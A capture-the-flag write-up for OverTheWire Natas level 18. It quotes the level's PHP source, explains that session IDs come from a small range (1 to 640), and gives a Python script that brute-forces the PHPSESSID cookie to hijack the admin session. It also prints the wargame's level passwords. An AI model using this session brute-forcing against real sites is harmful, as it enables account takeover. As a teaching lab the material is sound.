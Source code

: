 # Level 18

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas18.natas.labs.overthewire.org](http://natas18.natas.labs.overthewire.org)
- username: `natas18`
- password: `8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`

## Solution

![start](./start.jpg)

Let's see the sourcecode:

```php
...
<?php

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}

if($showform) {
?>
...
```

So it checks our `PHPSESSID` cookie. And we know that admin's cookie is in range `0-640`, we can bruteforce it by requesting the page with all possible cookie values and if `You are an admin` is in response text, then we got the right cookie. We can solve it with python:

```py
import requests

# Base URL
url = 'http://natas18.natas.labs.overthewire.org/'

# Function to make a POST request with a specific PHPSESSID
def send_post_with_session_id(session_id):
    # Cookies dictionary
    cookies = {'PHPSESSID': str(session_id)}
    
    # Headers including content type
    headers = {
        'Authorization': 'Basic bmF0YXMxODo4TkVEVVV4ZzhrRmdQVjg0dUx3dlprR242b2tKUTZhcQ==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas17.natas.labs.overthewire.org',
        'Referer': 'http://natas17.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }
    
    # Data payload for the POST request
    data = {'username': 'a'} 

    # Make the POST request with the specified session ID
    response = requests.post(url, headers=headers, cookies=cookies, data=data)
    
    if "You are an admin" in response.text:
        print("Admin's PHPSESSID is " + str(session_id))
        return True

# Loop through session IDs from 1 to 640
for session_id in range(1, 641):
    if send_post_with_session_id(session_id):
        break
```

The output is: `Admin's PHPSESSID is 119`, so by setting our `PHPSESSID` to `119` we can see following page:

![pass](./pass.jpg)

## Password

`natas19`:`8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s`

*Created by [bu19akov](https://github.com/bu19akov)*
